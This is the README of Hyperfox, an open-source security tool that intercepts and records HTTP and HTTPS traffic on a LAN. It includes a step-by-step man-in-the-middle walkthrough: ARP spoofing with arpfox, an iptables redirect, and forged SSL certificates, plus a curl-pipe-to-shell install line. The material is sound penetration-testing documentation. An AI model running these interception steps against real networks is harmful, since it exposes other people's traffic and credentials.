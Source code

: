 # Hyperfox

[Hyperfox][1] is a security tool for proxying and recording HTTP and HTTPs
communications on a LAN.

![Hyperfox diagram](https://hyperfox.org/images/hyperfox-diagram.png)

Hyperfox is capable of forging SSL certificates on the fly if you provide it
with a root CA certificate and its corresponding key. If the target machine
recognizes the root CA as trusted, then HTTPs traffic can be successfully
decrypted, intercepted and recorded.

![Hyperfox SSL](https://hyperfox.org/images/hyperfox-diagram.png)

This is the development repository, check out the [https://hyperfox.org][1]
site for usage information.

## Get `hyperfox`

You can install hyperfox to `/usr/local/bin` with the following command (requires
admin privileges):

```
curl -sL 'https://raw.githubusercontent.com/malfunkt/hyperfox/master/install.sh' | sh
```

You can also grab the latest release from our [releases
page](https://github.com/malfunkt/hyperfox/releases) and install it manually into
another location.

## Build it yourself

In order to build `hyperfox` you'll need Go and a C compiler:

```
go install github.com/malfunkt/hyperfox
```

## A common example: hyperfox with arpfox on Linux

The following example assumes that Hyperfox is installed on a Linux box (host)
on which you have root access or sudo privileges and that the target machine is
connected on the same LAN as the host.

We are going to use the [arpfox][4] tool to alter the ARP table of the target
machine in order to make it redirect its traffic to Hyperfox instead of to the
legitimate LAN gateway. This is an ancient technique known as [ARP
spoofing][6].

First, identify both the local IP of the legitimate gateway and its matching
network interface.

```sh
> sudo route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.0.0.1        0.0.0.0         UG    1024   0        0 wlan0
...
```

The interface in our example is called `wlan0` and the interface's gateway is
`10.0.0.1`.

```sh
> export HYPERFOX_GW=10.0.0.1
> export HYPERFOX_IFACE=wlan0
```

Then identify the IP address of the target, let's suppose it is `10.0.0.143`.

```sh
> export HYPERFOX_TARGET=10.0.0.143
```

Enable IP forwarding on the host for it to act (temporarily) as a common
router.

```sh
> sudo sysctl -w net.ipv4.ip_forward=1
```

Issue an `iptables` rule on the host to instruct it to redirect all traffic
that goes to port 80 (commonly HTTP) to a local port where Hyperfox is
listening to (1080).

```sh
> sudo iptables -A PREROUTING -t nat -i $HYPERFOX_IFACE -p tcp --destination-port 80 -j REDIRECT --to-port 1080
```

We're almost ready, prepare Hyperfox to receive plain HTTP traffic:

```sh
> hyperfox
...
2014/12/31 07:53:29 Listening for incoming HTTP client requests on 0.0.0.0:1080.
```

Finally, run `arpfox` to alter the target's ARP table so it starts sending its
network traffic to the host box:

```sh
> sudo arpfox -i $HYPERFOX_IFACE -t $HYPERFOX_TARGET $HYPERFOX_GW
```

and watch the live traffic coming in.

## Contributing to Hyperfox

Sure, there's a lot of opportunity. Choose an [issue][7], fix it and send a
pull request.

## License

> Copyright (c) 2012-today José Carlos Nieto, https://menteslibres.net/xiam
>
> Permission is hereby granted, free of charge, to any person obtaining
> a copy of this software and associated documentation files (the
> "Software"), to deal in the Software without restriction, including
> without limitation the rights to use, copy, modify, merge, publish,
> distribute, sublicense, and/or sell copies of the Software, and to
> permit persons to whom the Software is furnished to do so, subject to
> the following conditions:
>
> The above copyright notice and this permission notice shall be
> included in all copies or substantial portions of the Software.
>
> THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
> EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
> MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
> NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE
> LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION
> OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION
> WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

[1]: https://hyperfox.org
[2]: https://golang.org/doc/install
[3]: https://en.wikipedia.org/wiki/Man-in-the-middle_attack
[4]: https://github.com/malfunkt/arpfox
[5]: http://git-scm.com
[6]: https://en.wikipedia.org/wiki/ARP_spoofing
[7]: https://github.com/malfunkt/hyperfox/issues
